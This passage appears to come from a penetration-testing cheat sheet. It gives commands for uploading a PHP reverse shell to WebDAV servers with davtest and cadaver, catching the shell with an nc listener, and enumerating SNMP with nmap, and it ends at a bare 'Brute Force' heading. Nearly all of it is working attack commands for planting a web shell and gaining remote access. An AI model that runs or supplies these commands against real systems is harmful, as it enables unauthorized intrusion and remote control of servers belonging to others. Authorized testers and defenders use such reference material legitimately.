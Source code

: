 ```bash
davtest -url $WEBSITE
```

{% hint style="info" %}
Upload Shell
{% endhint %}

```bash
davtest -url $WEBSITE \
        -uploadfile /usr/share/webshells/php/php-reverse-shell.php \
        -uploadloc shell.php
```

{% hint style="info" %}
Listening
{% endhint %}

```bash
nc -lvnp 1234
```

#### [Cadaver](https://github.com/notroj/cadaver)

```bash
cadaver $WEBSITE/webdav
```

{% hint style="info" %}
PUT Web shell
{% endhint %}

```bash
put /usr/share/webshells/php/php-reverse-shell.php
```

{% hint style="info" %}
Listening
{% endhint %}

```bash
nc -lvnp 1234
```

### SNMP

#### [Nmap](https://nmap.org/)

{% hint style="info" %}
Identify SNMP
{% endhint %}

```bash
nmap -p 161 -sU -sV --mtu 5000 --script snmp-info $WEBSITE
```

{% hint style="info" %}
Brute Force
{% endhint %}
